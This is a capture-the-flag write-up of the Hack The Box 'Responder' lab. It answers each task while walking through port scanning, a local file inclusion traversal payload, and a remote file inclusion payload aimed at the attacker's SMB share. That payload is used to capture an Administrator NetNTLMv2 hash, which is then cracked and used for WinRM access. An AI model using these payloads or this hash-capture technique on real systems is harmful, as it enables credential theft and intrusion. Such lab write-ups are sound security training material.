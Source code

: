 ## Box 4: Responder

![](img/1.png)
 <img src="img/1.png" class="center">

This Box is tagged "SAMBA", "Enumeration", "Apache" and "WinRM". 

## Checking for open ports : 
First we run  **nmap -p- -sV -O 10.129.232.67**

 <img src="img/2.png" class="center">
 
 **Task1: How many TCP ports are open on the machine? :** 2 open ports 
 **- 80/tcp**
 **- 5985/tcp**  
 Seeing that a 5985/tcp port is open on our machine means that WinRM is configured and we can try entering a remote session.

**What is WinRM ?**
Windows Remote Management (WinRM) is a Microsoft protocol that allows remote management of Windows machines over HTTP(S) using SOAP. On the backend it's utilising WMI, so you can think of it as an HTTP based API for WMI.
If WinRM is enabled on the machine, it's trivial to remotely administer the machine from PowerShell. In fact, you can just drop in to a remote PowerShell session on the machine (as if you were using SSH!) . 

**Task2: When visiting the web service using the IP address, what is the domain that we are being redirected to?** unika.htb
At this point, we need to setup a local DNS using the hosts file (/etc/hosts) 

<img src="img/3.png" class="center"> 

By entering the ip given we will get this page :
<img src="img/14.png" class="center"> 


**Task3: Which scripting language is being used on the server to generate webpages?** PHP
By using the tool Wapppalyzer we can see that the scripting language used is PHP 

<img src="img/4.png" class="center"> 

**Task4: What is the name of the URL parameter which is used to load different language versions of the webpage?** page
**Task5: Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"**
../../../../../../../../windows/system32/drivers/etc/hosts

<img src="img/5.png" class="center"> 

**Task6: Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"**
//10.10.14.6/somefile

**What is RFI ?**
Remote file inclusion (RFI) is an attack targeting vulnerabilities in web applications that dynamically reference external scripts. The perpetrator’s goal is to exploit the referencing function in an application to upload malware (e.g., backdoor shells) from a remote URL located within a different domain.

**Task7 : What does NTLM stand for?** New Technology Lan Manager 

**Task8 : Which flag do we use in the Responder utility to specify the network interface?** -I 


By using the responder which is an inbuilt Kali Linux tool for Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) that responds to specific NetBIOS queries based on the file server request.

<img src="img/6.png" class="center"> 
<img src="img/7.png" class="center"> 

Now that the responder server is listening , we will make the server include a ressource from our smb using the following payload:
**http://unika.htb/?page=//ourIP@/somefile**

The responder server got a NetNTLMv for the Administrator user.
<img src="img/8.png" class="center"> 
We can copy this hash into a file that we will call hash . 

**Task9 : There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?** John The Ripper 

We can now crack the hash that we have got using the tool John the Ripper to get the password of the Administrator like the following : 
<img src="img/9.png" class="center"> 

**Task10: What is the password for the administrator user?** badminton

**Task11: We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?** 5985

By using the tool evil winrm we can connect to the WinRM service on the target machine :

<img src="img/10.png" class="center"> 
<img src="img/11.png" class="center"> 
<img src="img/12.png" class="center"> 
We can find the flag under c:\Users\mike\Desktop
<img src="img/13.png" class="center"> 


